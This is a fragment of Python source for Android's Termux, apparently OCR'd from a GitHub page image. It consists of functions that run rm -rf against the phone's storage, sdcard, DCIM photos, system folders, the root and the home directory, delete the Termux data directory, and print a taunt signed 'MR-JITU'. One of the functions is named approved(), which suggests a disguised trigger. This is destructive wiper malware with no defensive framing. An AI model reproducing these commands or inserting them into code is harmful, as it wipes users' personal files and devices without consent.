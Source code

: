     os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU_🧸{P}')

def approved():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")
